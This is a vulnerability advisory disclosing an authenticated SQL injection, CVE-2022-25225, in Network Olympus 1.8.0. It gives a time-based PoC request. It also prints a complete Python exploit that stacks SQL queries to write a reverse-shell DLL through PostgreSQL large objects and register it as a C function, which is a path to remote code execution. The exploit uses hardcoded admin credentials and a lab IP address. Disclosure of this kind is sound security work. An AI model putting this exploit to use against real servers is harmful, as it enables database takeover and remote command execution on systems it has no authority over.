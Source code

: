 ```yaml
---
slug: advisories/spinetta/
title: Network Olympus 1.8.0 - SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: spinetta
product: Network Olympus 1.8.0
date: 2022-02-23 10:00 COT
cveid: CVE-2022-25225
description: Network Olympus 1.8.0 - SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Network Olympus
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                 |
|-------------------------|-----------------------------------------------------------------|
| **Name**                | Network Olympus 1.8.0 - SQL Injection                           |
| **Code name**           | [Spinetta](https://en.wikipedia.org/wiki/Luis_Alberto_Spinetta) |
| **Product**             | Network Olympus                                                 |
| **Affected versions**   | Version 1.8.0                                                   |
| **State**               | Public                                                          |
| **Release date**        | 2022-03-07                                                      |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | SQL injection                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)    |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H                     |
| **CVSSv3 Base Score** | 9.1                                                              |
| **Exploit available** | No                                                               |
| **CVE ID(s)**         | [CVE-2022-25225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25225)                                                     |

## Description

Network Olympus **version 1.8.0** allows an authenticated admin user to inject
SQL queries in `/api/eventinstance` via the `sqlparameter`. It is also possible
to achieve remote code execution in the default installation (PostgreSQL)
by exploiting this issue.

## Proof of Concept

Steps to reproduce

1. Log in to Network Olympus.

2. The application send a request to `/api/eventinstance`
   with a json as parameter in the url, the json parameter
   `sqlparameter` allows to inject sql queries. It can be
   exploited using boolean based sql or stacked queries.

3. The following PoC can be used to make the database sleep for 2 seconds.

    ```html
      /api/eventinstance/{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":"1=1%2f%2a%2a%2f;select%2f%2a%2a%2fpg_sleep(2);--"}
    ```

4. To achieve command execution it is possible to create a malicious
   DLL and then load it in postgresql.

5. Create a malicious postgres [DLL extension](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html).

6. Create a copy of the exploit found in the following session
   and copy the generated DLL to the same folder
   and rename it to `rev_shell.dll`.

* Version: Network Olympus 1.8.0 (Trial Version).
* Operating System: Windows 10.
* Database and version: PostgreSQL 10.8,
  compiled by Visual C++ build 1800, 32-bit.

## Exploit

```python
import requests,sys, urllib, string, random, time, binascii
requests.packages.urllib3.disable_warnings()


# encoded UDF rev_shell dll

def read_udf(filename='rev_shell.dll'):
    f = open(filename, 'rb')
    content = f.read()
    return  binascii.hexlify(content)


udf = read_udf()


def login():

    url = "http://172.16.28.140:3000/api/signIn"

    # CHANGE THIS
    json = {"password": "j84sTuh8pmLb2YhVTChcmg==", "username": "admin"}

    s = requests.session()
    s.post(url, json=json)

    return s

def log(msg):
    print(msg)

def make_request(url, sql,s):
    json_query = """{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":\""""

    sqli = "1=1; %s --" % sql

    sqli = sqli.replace(" ","%2f%2a%2a%2f")

    sqli = json_query + sqli + "\"}"

    log("[*] Executing query: %s" % sql[0:80])
    proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    r = s.get(url+sqli, verify=False, proxies=proxies)

    return r


def delete_lo(url, loid,s):
    log("[+] Deleting existing LO...")
    sql = "SELECT lo_unlink(%d)" % loid
    make_request(url, sql, s)


def create_lo(url, loid,s):
    log("[+] Creating LO for UDF injection...")
    sql = "SELECT lo_import('C:\\\\windows\\\\win.ini',%d)" % loid
    make_request(url, sql, s)


def inject_udf(url, loid,s):
    log("[+] Injecting payload of length %d into LO..." % len(udf))

    size = 2048 * 2

    for i in range(0,((len(udf)-1)/size)+1):
        udf_chunk = udf[i*size:(i+1)*size]

        if i == 0:
            sql = "UPDATE PG_LARGEOBJECT SET data=decode('%s', 'hex') where loid=%d and pageno=%d" % (udf_chunk, loid, i)
        else:
            sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode('%s', 'hex'))" % (loid, i, udf_chunk)

        make_request(url, sql,s)

def export_udf(url, loid,s):
    log("[+] Exporting UDF library to filesystem...")
    sql = "SELECT lo_export(%d, 'C:\\\\Users\\\\Public\\\\rev_shell.dll')" % loid
    make_request(url, sql,s)

def create_udf_func(url,s):
    log("[+] Creating function...")
    #sql = "create or replace function rev_shell(text, integer) returns VOID as 'C:\\Users\\Public\\rev_shell.dll', 'connect_back' language C strict"
    sql = "CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS 'C:\\\\Users\\\\Public\\\\rev_shell.dll', 'dummy_function' LANGUAGE C STRICT;"
    make_request(url, sql,s)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        port = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s serverIP:port " % sys.argv[0])
        sys.exit()

    sqli_url = "http://%s:%s/api/eventinstance/" % (server,port)

    loid = 1337

    print("[*] Authenticated SQL Injection to RCE")
    print("[*] Network Olympus 1.8.0 ")
    print

    s = login()

    delete_lo(sqli_url, loid,s)
    create_lo(sqli_url, loid,s)
    inject_udf(sqli_url, loid,s)
    export_udf(sqli_url, loid,s)
    create_udf_func(sqli_url,s)
```

## Mitigation

By 2022-03-07 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.network-olympus.com/monitoring/>                       |

## Timeline

* 2022-02-22: Vulnerability discovered.

* 2022-02-23: Vendor contacted.

* 2022-03-07: Public Disclosure.